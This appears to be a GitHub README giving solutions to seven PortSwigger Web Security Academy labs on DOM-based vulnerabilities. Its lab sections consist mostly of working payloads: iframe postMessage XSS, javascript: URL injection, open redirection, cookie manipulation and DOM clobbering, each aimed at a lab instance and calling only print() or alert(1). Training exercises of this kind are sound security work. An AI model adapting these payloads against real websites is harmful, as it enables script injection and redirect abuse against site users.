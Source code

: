 
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Blue%20Gradient%20Modern%20LinkedIn%20Banner.jpg?raw=true)
# DOM-based vulnerabilities
[Lab-1](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)
[Lab-2](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)
[Lab-3](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)
[Lab-4](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)
[Lab-5](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)
[Lab-6](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
[Lab-7](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)







## Lab-1  , DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.
- Go to the exploit server

```bash
  <iframe src="https://0aad00a403ef4bdf809e85bb002400ca.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/portswigger%20lab.png?raw=true)

## Lab-2  , DOM XSS using web messages and a JavaScript URL

Go to the exploit server

```bash
  <iframe src="https://0a7300ab04ade806808f671e000300ee.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>

```
## Lab-3  , DOM XSS using web messages and JSON.parse

Go to the exploit server

```bash
  <iframe src=https://0aa000730357be3b8085a37700830016.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

```

## Lab-4  , DOM-based open redirection

Go to the Browser

```bash
https://0a3d009f041d7ba480b4088200c800c6.web-security-academy.net/post?postId=2&url=https://exploit-0a46008a047d7bb3808f07e7016200cf.exploit-server.net/

```
[YouTube video ](https://www.youtube.com/watch?v=pwM8cr_30hg)

## Lab-5  , DOM-based cookie manipulation

Go to the exploit server

```bash
 <iframe src="https://0ac2000304106e2d8031df12004800e4.web-security-academy.net/product?productId=11&'><script>print()</script>" onload="if(!window.x)this.src='https://0ac2000304106e2d8031df12004800e4.web-security-academy.net';window.x=1;"></iframe>

```
[YouTube video ](https://www.youtube.com/watch?v=pk3KjtoLMTc)


## Lab-6  , Exploiting DOM clobbering to enable XSS

Go to the exploit server

```bash
 <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
[YouTube video ](https://www.youtube.com/watch?v=INUvcWQ3Pmc)


## Lab-7  , Clobbering DOM attributes to bypass HTML filters

Go to the exploit server

```bash
 <form id=x tabindex=0 onfocus=print()><input id=attributes>
<iframe 

```

```bash
 src=https://0a71004004c1f848800fbc6e005100fe.web-security-academy.net/post?postId=10 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```
[YouTube video ](https://www.youtube.com/watch?v=34TB5FfNlko)




